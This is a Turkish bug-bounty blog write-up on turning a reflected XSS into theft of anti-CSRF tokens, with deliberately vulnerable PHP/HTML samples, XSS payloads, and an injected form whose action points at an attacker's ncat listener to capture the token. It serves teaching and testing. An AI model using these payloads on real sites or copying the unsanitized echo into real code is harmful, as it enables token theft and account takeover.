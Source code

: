 ```yaml
---
title: 'TR \| Steal CSRF Tokens with an XSS'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-an-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with an XSS'
---
```


Merhaba,  
Ben Samet ŞAHİN.  
İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Amacımız güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak eposta ve parola değişikliği yaptıran CSRF (\*1) açığı elbette aynı potansiyel zarara sahip değildir.

  
Öyleyse, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (\*2) var. 
  

## Normal XSS Açığı :  
Websitesinde bir arama kutusu olduğunu görüyoruz. Sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve bir inputun değerini, *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (\*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat testlerden sonra görüyoruz ki *search* parametresi için hiçbir sanitizasyon (\*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (\*5) Açığı bulmamız için GET metoduyla search parametresine bir payload (\*6) gönderiyoruz.
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde value attribute'inin tırnaklarını kapattık ve artık kendi zararlı kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS'in varlığının kanıtı için herhangi JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki payloadımız:
`"><script>alert(1)</script>` (\*7) gönderdik ve kaynak kodunu inceledik:

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. Elbette JavaScript dilinin yardımlarıyla `getElementById` gibi komutlarla da bu işi yapabilirsiniz. Fakat asıl nokta, bu işi en kısa ve en az JavaScript yardımıyla halletmektir. Güvenlik Header'larının kullanımının artmasıyla birlikte bu trick önem kazanıyor. (\*8)

-  Yukarıda da değindiğim gibi `<form>` ve `</form>` tagları arasında ve CSRF Token'in yansıtılmış olduğu ve herhangi bir tagın içinde çalışan bir XSS açığına olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  prensibi şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (\*9) action attribute'üne dinlediğin ip ve port'u gir (\*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle : `ncat -nlvp 667`
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek : `| grep CSRF`


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>


**SONUÇ :**  
Değerli içerik taşıyan tagların ve açıklı tagların sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

**1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

**2** :
Anti-CSRF tokenleri, CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerlerdir. Bu tokenlerin olmadığı ve esktra güvenlik önlemlerinin alınmadığı durumlarda CSRF açığı meydana gelebilir.

**3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

**4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

**5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama sizin farkınız XSS'ten diğer açıklara ulaşmanız olmalı.

**6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

**7** :
Normalde böyle bir payload çok az yerde çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmalı ve her tuşun kaynak kodunda yansımış olduğu yerleri dikkatlice incelemelisiniz. Yani her payloadınızla birlikte websitenin yanıtını kontrol etmelisiniz.

**8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali düşüktür. 

**9** :
HTML'de nir form tagı açtığınız zaman onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile bir adet tamamen kapatılmış ve bir adet de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>
```
ve
```html
<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action attribute'ünü değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan Tokeni elde edebileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi localimizde rastgele bir portu dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  

Samet ŞAHİN   
